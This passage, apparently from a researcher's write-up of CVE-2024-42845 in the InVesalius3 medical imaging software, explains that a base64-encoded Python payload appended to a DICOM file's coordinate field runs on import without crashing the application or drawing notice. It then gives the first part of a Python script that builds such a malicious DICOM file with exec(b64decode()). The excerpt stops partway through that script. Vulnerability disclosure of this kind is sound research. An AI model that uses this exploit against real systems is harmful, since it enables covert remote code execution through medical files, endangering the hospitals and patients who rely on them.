 Finally, an interesting operational note is that, by adding the Python payload at the end of the actual DICOM coordinates, the payload will be executed by the application _without causing the application to crash or have any unexpected behaviour_, allowing the attack to be performed without any notice.

<figure><img src="../.gitbook/assets/invesalius-poc.png" alt=""><figcaption><p>Example PoC in action</p></figcaption></figure>

***

### Paylod Generation Script

The script below creates a specifically crafted DICOM payload for CVE-2024-42845.\
Remote Code Execution is gained once the DICOM file is imported inside the victim's client application.

{% hint style="info" %}
You can find the proof of concept code in my repository:\
[https://github.com/alessio-romano/Invesalius3\_CVE-2024-42845](https://github.com/alessio-romano/Invesalius3_CVE-2024-42845)
{% endhint %}

```python
import pydicom
import base64
import argparse

pydicom.config.settings.reading_validation_mode = pydicom.config.IGNORE


def encode_payload(plain_payload):
    data = open(plain_payload, 'rb').read()
    return f"exec(__import__('base64').b64decode({base64.b64encode(data)})"

def prepare_dicom_payload(dicom_file_path, payload):
    try:
        dicom_data = pydicom.dcmread(dicom_file_path)

        values = dicom_data[0x0020, 0x0032].value
        mal = [str(i) for i in values]
        mal.append(encode_payload(payload))
        
    except pydicom.errors.InvalidDicomError:
        print("The file is not a valid DICOM file.")
    except Exception as e:
        print(f"An error occurred: {e}")
    
    return mal


def modify_dicom_field(dicom_file_path, malicious_tag, outfile, sign):
```